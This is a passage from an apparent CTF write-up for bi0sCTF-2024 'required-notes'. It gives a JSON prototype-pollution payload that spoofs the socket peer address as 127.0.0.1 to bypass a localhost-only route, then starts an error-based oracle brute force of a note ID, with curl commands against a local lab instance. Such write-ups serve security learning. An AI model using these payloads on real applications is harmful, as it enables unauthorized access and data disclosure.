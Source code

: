 **Payload:**
```json
{"data":[{"title":"option(foobar).constructor.prototype._peername.address = \"127.0.0.1\";optional"},{"author":"optional"}]}
```

**Before polluted:**
```
┌[siunam♥Mercury]-(~/ctf/bi0sCTF-2024/Web-Exploitation/required-notes)-[2024.02.26|14:18:12(HKT)]
└> curl http://localhost:3000/search
{"Message":"Access denied"}
```

```javascript
undefined
{ address: '::ffff:172.17.0.1', family: 'IPv6', port: 50844 }
```

**After polluted:**
```shell
┌[siunam♥Mercury]-(~/ctf/bi0sCTF-2024/Web-Exploitation/required-notes)-[2024.02.26|14:20:07(HKT)]
└> curl http://localhost:3000/search
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /search</pre>
</body>
</html>
```

```javascript
{ address: '127.0.0.1' }
{ address: '127.0.0.1' }
```

Nice!!! **We successfully polluted the `_peername`'s `address` to become `127.0.0.1`!!** And now we can access the `/search` route!

Let's go!

**Here's come the final step: Brute force the flag note ID via error-based oracle.**

**We can take an existing note called `Healthcheck` for an example:**
```shell
┌[siunam♥Mercury]-(~/ctf/bi0sCTF-2024/Web-Exploitation/required-notes)-[2024.02.26|14:28:12(HKT)]
└> curl http://localhost:3000/search/Healthchea
{"Message":"Not found"}
┌[siunam♥Mercury]-(~/ctf/bi0sCTF-2024/Web-Exploitation/required-notes)-[2024.02.26|14:28:16(HKT)]
└> curl http://localhost:3000/search/Healthchec 
{"Message":"Internal server error"}
┌[siunam♥Mercury]-(~/ctf/bi0sCTF-2024/Web-Exploitation/required-notes)-[2024.02.26|14:28:45(HKT)]
└> curl http://localhost:3000/search/Healthcheck
{"Message":"Note found"}
```
